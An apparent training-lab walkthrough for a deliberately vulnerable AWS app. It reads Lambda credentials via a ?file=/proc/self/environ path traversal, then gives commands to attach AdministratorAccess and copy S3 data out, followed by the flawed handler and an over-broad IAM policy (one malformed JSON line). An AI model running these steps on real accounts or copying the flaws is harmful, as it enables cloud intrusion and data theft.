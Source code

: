 # The Boring Paper Company: Products Exploit Walkthrough

This webpage is backed by API Gateway and Lambda. When a request is made the API forwards the request to lambda which in turns serves the content.

Accessing Certain Files may be Important for application use.

However, not all files should be publicly accessible.

---

### Discovery:

Right-click on the web page, and select "Inspect" or "Inspect Element" from the context menu. This will open the browser's developer tools.

- Click on the Network tab, in the inspector tools window. 
- Click hint.txt again to re-issue the request from the Web UI.
- Expand the 200 status GET method event.
- Discover the backend API Gateway Endpoint URL.

![lambda](/images/products/lambda.jpg)

The format should be: https://something.execute-api.us-east-1.amazonaws.com/dev/lambda

---

### Gain Entry:
Try appending the following to the end of the current URL.
- ?file=/proc/self/environ

![envs](/images/products/envs.jpg)

---

### Assume Exposed Lambda Role

Exporting the AWS credentials
```
export AWS_ACCESS_KEY_ID=<>; export AWS_SECRET_ACCESS_KEY=<>; export AWS_SESSION_TOKEN=<>
```

Gather the value of the IAM Role ARN 
```
aws sts get-caller-identity --query 'Arn'
```

---

### IAM Privilege Escalation

Attach a IAM policy to our IAM Role to gain additional permissions
```
aws iam attach-role-policy --role-name <name of role> --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```


![assume](/images/products/gather.jpg)

---

### Service Enumeration

List AWS S3 buckets
```
aws s3 ls
```

List objects inside of S3
```
aws s3 ls s3://<Name of bucket>
```

---

### Data Exfiltration

Copy out S3 object
```
aws s3 cp s3://<name of bucket>/<file name and extension>
```

![exfil](/images/products/exfil.jpg)

---

## Explanations 

---

### Insufficient Input Validation:

Here is the underlying code running on Lambda.

```
def handler(event, context):
    print("EVENT: %s" % (event,))
    content = ""

    if event.get("queryStringParameters") and 'file' in event["queryStringParameters"]:
        filename = event["queryStringParameters"]['file'] #file input is not validated here.
        try:
            with open(filename, 'r') as f: # opening up unvalidated file
                content = f.read()
                content = content.replace('\0', '\n')
        except BaseException:
            return _403()

    BODY = """<!DOCTYPE html>
<html>
<body>
<pre>%s</pre>
</body>
</html>""" % content

    return {
        'statusCode': 200,
        'headers': {
            'Content-Type': 'text/html; charset=utf8',
            'Access-Control-Allow-Origin' : '*'
        },
        'isBase64Encoded': False,
        'body': BODY,
    }

```

---

Let's break down the issues:

```
filename = event["queryStringParameters"]['file']
```

Security Concern: The code directly uses the filename extracted from the query parameters without proper validation. This can be a security risk as it may allow for directory traversal attacks, where an attacker manipulates the file parameter to access files outside the intended directory.


```
with open(filename, 'r') as f:
```
Security Concern: Opening a file without proper validation may expose sensitive system files if an attacker can control the filename. This could lead to directory traversal vulnerabilities.

---

### Insufficient Implementation of Least Privilege Permissions

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Action": [
                "cloudwatch:PutMetricData"
            ],
            "Resource": "*", "*", ## Excessive Star
            "Effect": "Allow"
        },
        {
            "Action": [
                "logs:CreateLogGroup",
                "logs:CreateLogStream",
                "logs:PutLogEvents",
                "iam:ListAttachedRolePolicies",
                "iam:AttachRolePolicy" ## Excessive permission
            ],
            "Resource": "*", ## Excessive Star
            "Effect": "Allow"
        }
    ]
}
```
---

Let's break down the issues:

**Excessive Use of * (Wildcard)**:
    In both statements, the Resource field is set to "*" (wildcard), allowing actions on all resources. This is a broad permission that goes against the principle of least privilege.
    Issue: This approach grants more permissions than necessary and could potentially lead to unintended consequences, such as allowing actions on resources that the role shouldn't have access to.

**Excessive Permissions in the Second Statement**:
    The second statement includes actions like "iam:ListAttachedRolePolicies" and "iam:AttachRolePolicy". These actions provide the capability to list attached policies and attach policies to IAM roles.
    Issue: Granting these IAM actions is excessive unless the role explicitly needs to manage IAM policies. This introduces the risk of IAM privilege escalation, where a user with this role can potentially attach policies with higher privileges, leading to a broader set of permissions than intended.